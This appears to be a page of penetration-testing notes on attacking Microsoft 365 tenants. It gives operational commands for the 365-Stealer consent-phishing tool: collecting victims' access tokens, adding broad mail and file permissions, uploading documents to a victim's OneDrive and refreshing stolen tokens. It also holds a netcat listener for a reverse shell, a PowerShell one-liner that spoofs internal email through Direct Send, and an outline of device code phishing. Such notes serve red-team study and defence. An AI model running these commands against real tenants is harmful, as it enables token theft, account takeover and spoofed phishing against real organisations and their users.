 #### Send phishinglink to targets

#### Get the access tokens
- Browse to http://localhost:82/365-Stealer/yourvictims/
- Click on the user and copy the access token from access_token.txt

#### Get admin consent
- https://docs.microsoft.com/en-us/azure/active-directory/manage-apps/grant-admin-consent
- Global Admin, Application Admin, or Cloud Application Administrator can all grant tenant wide application admin consent
```
- In the left menu go to 'API permissions' and add the mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send to Microsoft Graph.
- Refish the user to get a token with the extra permissions
```

#### Start a listener
```
nc.exe -lvp 4444
```

#### Abuse the access token - Uploading word doc to OneDrive
```
cd C:\xampp\htdocs\365-Stealer\

& 'C:\Program Files\Python38\python.exe' 365-Stealer.py --upload <PATH TO DOC> --token-path C:\xampp\htdocs\365-Stealer\yourVictims\<USER>\access_token.txt
```

#### Refresh all tokens
- Access token is valid for 1 hour, can't be revoked.
- Refresh token is valid for 90 days but can be revoked.
```
python 365-Stealer.py --refresh-all
```

### Email spoofing
- https://www.blackhillsinfosec.com/spoofing-microsoft-365-like-its-1995/
- Microsoft Direct Send is the feature that can be utilised to send spoofing emails.
- The benefits for the the attackers is that the Direct Send feature requires NO authentication and can be sent from OUTSIDE of the organisation.
- There are only 2 prerequisites: Microsoft 365 subscription and Exchange Online Plan

```
Send-MailMessage -SmtpServer CompanyDomain-com.mail.protection.outlook.com -Subject “Subject Here” -To ‘Full Name <user2@companyDomain.com>‘ -From ‘From Full Name <user1@companyDomain.com>‘ -Body “Hello From your Co-worker” -BodyAsHtml
```

### Device code phishing
- Login to devices that has limited input posibility, Like a smart TV.
- Flow
  - Enter code on device on https://microsoft.com/devicelogin
  - Perform normal authentication, including MFA as user
  - On successful login the device gets access and refresh tokens
- Links
  - https://aadinternals.com/post/phishing/
  - https://www.offsec-journey.com/post/phishing-with-azure-device-codes
  - https://www.youtube.com/watch?v=GZ_nn0uRLr4
- Block device auth flow: https://learn.microsoft.com/en-us/entra/identity/conditional-access/how-to-policy-authentication-flows
